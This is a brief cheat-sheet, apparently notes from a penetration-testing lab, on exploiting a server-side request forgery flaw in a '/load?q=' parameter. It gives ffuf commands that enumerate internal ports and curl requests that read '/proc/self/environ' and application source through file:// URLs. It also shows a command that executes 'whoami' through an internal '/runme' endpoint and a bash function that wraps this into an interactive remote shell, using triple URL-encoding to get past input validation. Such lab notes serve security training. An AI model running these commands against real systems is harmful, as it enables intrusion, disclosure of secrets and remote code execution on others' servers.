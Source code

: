 
Simple wordlist for port http enumeration:

```shell-session
$ for port in {1..65535};do echo $port >> ports.txt;done
```

Enumerate responses with FFuF
```shell-session
$ ffuf -w ./ports.txt:PORT -u "http://<TARGET IP>/load?q=http://127.0.0.1:PORT" -fs 30
```

It may ask for some recursion to work: 
```shell-session
$ ffuf -w ./ports.txt:PORT -u "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:PORT" -fr 'Errno[[:blank:]]111'
```

Levraging some RCE/Source Code Disclosure: 

Environment/Current Dir
```shell-session
$ curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///proc/self/environ" -o -
```

Source Code Disclosure:
```shell-session
$ curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///app/internal_local.py"
```

RCE:
```shell-session
curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=whoami"
```

Simple RCE script for input validation bypess with url encode:

```shell-session
$ function rce() {
while true; do
echo -n "# "; read cmd
ecmd=$(echo -n $cmd | jq -sRr @uri | jq -sRr @uri | jq -sRr @uri)
curl -s -o - "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=${ecmd}"
echo ""
done
}
```
